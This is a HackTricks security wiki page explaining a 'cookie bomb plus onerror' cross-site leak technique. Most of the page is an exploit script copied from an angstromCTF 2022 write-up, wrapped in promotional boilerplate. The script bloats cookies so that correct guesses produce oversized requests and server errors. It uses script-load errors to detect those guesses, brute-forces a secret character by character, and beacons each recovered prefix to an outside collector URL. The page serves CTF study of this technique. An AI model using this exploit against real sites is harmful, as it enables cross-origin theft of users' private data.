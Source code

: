 # Cookie Bomb + Onerror XS Leak

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️</strong> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

The following **script** taken from [**here**](https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/) is exploiting a functionality that allows the user to **insert any amount of cookies**, and then loading a file as a script knowing that the true response will be larger than the false one and then. If successful, the response is a redirect with a resulting URL longer, **too large to handle by the server so return an error http status code**. If the search fails, nothing will happen because URL is short.

```html
<>'";<form action='https://sustenance.web.actf.co/s' method=POST><input id=f /><input name=search value=a /></form>
<script>
    const $ = document.querySelector.bind(document);
    const sleep = (ms) => new Promise(r => setTimeout(r, ms));
    let i = 0;
    const stuff = async (len=3500) => {
        let name = Math.random();
        $("form").target = name;
        let w = window.open('', name);
        $("#f").value = "_".repeat(len);
        $("#f").name = i++;
        $("form").submit();
        await sleep(100);
    };
    const isError = async (url) => {
        return new Promise(r => {
            let script = document.createElement('script');
            script.src = url;
            script.onload = () => r(false);
            script.onerror = () => r(true);
            document.head.appendChild(script);
        });
    }
    const search = (query) => {
        return isError("https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query));
    };
    const alphabet = "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ";
    const url = "//en4u1nbmyeahu.x.pipedream.net/";
    let known = "actf{";
    window.onload = async () => {
        navigator.sendBeacon(url + "?load");
        await Promise.all([stuff(), stuff(), stuff(), stuff()]);
        await stuff(1600);
        navigator.sendBeacon(url + "?go");
        while (true) {
            for (let c of alphabet) {
                let query = known + c;
                if (await search(query)) {
                    navigator.sendBeacon(url, query);
                    known += c;
                    break;
                }
            }
        }
    };
</script>
```







<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️</strong> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
